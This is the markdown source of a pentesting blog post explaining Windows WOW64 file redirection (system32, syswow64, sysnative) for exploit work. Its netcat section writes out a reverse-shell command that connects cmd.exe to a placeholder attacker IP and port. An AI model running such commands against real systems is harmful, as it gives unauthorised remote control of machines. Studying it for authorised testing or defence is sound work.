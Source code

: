 ```yaml
---
layout: post
published: true
featured: true
title: WOW64 for Pentesters
headline: 'WOW64'
description: WOW64 for Pentesters
modified: '2019-03-01'
categories:
  - hacking
  - windows
tags: hacking windows wow64 powershell sysnative pentest oscp
---
```

## The Problem

Exploit code can be challenging to make work, it can be rough around the edges, specific to certain environments and libraries, and have syntax errors and bugs.  Some Windows-based exploits require an understanding and navigation of 32-bit application compatibility on 64-bit systems, which Windows calls "Windows on Windows" or WOW64.  This also applies to Powershell, which has both 32-bit and 64-bit versions of powershell.exe.

## The Solution

The 64-bit versions of Windows provide an emulation layer for 32-bit applications that provide access to 32-bit versions of libraries, executables, directories and registry keys so that these apps can run transparently without modification. 

This emulation layer is called WOW64 (Windows on Windows) and by understanding how it works, you can run 64-bit versions of apps from a 32-bit process and vice versa.

### Detecting 64-bit Windows

There are several ways to detect a 64-bit version of Windows, one of which is to use the _set_ command to display environment variables and look for processor architecture. Another simple way is to verify the presence of the _Program Files (x86)_ directory, which only exists on 64-bit versions of Windows.

### File Redirection for 32-Bit Apps

Windows 64-bit libraries and executables are located in the _%SYSTEMROOT%\system32_ directory.  The name may seem confusing, but was done to maintain backwards compatibility because of hard coded paths.  

Windows 32-bit libraries and executables are located in the _%SYSTEMROOT%\syswow64_ directory, but instead of having to modify paths in source code, WOW64 transparent redirects 32-bit app calls from _%SYSTEMROOT%\system32_ to _%SYSTEMROOT%\syswow64_.

A 32-bit app can also explicitly access 64-bit versions using the _%SYSTEMROOT%\sysnative_ path (not visible in Windows Explorer).

```powershell

32-bit app > 32-bit versions > \system32 ( secretly redirected to \syswow64)
32-bit app > 64-bit versions > \sysnative

```
<p> </p>
A 64-bit application can also access 32-bit versions directly using \syswow64.

```powershell

64-bit app > 32-bit versions > \syswow64

```
<p> </p>
### Netcat Example

When spawning a command shell from a Windows system, in many situations you might transfer nc.exe to the host to spawn a reverse shell using the _-e cmd.exe_ switch.  Because the nc.exe binary is 32-bit, it will call the 32-bit version of cmd.exe and any commands you use will be 32-bit versions, including powershell.exe. 

There's a few ways around this if needed:

Explictly spawn the 64-bit version of cmd.exe with netcat if you are certain your target is 64-bit:

```powershell

  nc.exe -e %SYSTEMROOT%\sysnative\cmd.exe ATTACKER-IP ATTACKER-PORT

```
<p> </p>

Spawn the 32-bit cmd.exe but explicitly call 64-bit versions of apps, using  the sysnative path.
Here's an example I had to use recently to explicitly open a 64-bit powershell prompt from a 32-bit cmd.exe shell.

```powershell

  %SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe

```
<p> </p>

## Further Reading

- <a href="https://docs.microsoft.com/en-us/windows/win32/winprog64/wow64-implementation-details" target="_blank">WOW64 Implementation</a>
- <a href="https://docs.microsoft.com/en-us/windows/win32/winprog64/running-32-bit-applications" target="_blank">Running 32-Bit Applications</a>
- <a href="https://docs.microsoft.com/en-us/windows/win32/winprog64/accessing-an-alternate-registry-view" target="_blank">Accessing Alternate Registry Views</a>

<p>&nbsp;</p>  
<p>&nbsp;</p>  
